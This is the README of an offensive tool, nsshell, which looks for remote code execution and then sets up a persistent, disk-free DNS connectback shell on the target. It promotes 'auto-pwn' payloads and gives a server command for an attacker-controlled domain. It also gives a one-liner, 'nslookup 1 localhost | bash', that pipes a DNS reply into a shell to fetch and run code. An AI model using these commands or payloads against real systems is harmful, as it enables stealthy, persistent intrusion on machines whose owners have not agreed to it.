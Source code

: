 <img src="https://github.com/TheRook/nsshell/blob/master/icon.png?raw=true" width="64">

Think sqlmap meets xsshunter - but looking for (blind/nonblind) RCE to get a DNS connectback shell. 

- persistent shell (even if you exit nsshell.py)
- doesn't touch disk
- resumes access when you restart nsshell.py
- nothing to install or compile for the target
- the target can use their own trusted DNS resolver - or automatically upgrade to a direct connection for speed

Start:
The tool needs to know which domain it has control over:

sudo ./nsshell.py host.com 123.123.123.112

**wrote connectback payloads to:payloads.txt**

The file above contains a list of auto-pwns. Run one of the payloads and a persistent shell will be loaded over DNS.

### install
sudo make install

### Run Server - localhost for testing
sudo python nsshell.py localhost 127.0.0.1

###Spawn Connectback shell- localhost for testing
nslookup 1 localhost | bash


That's all folks!
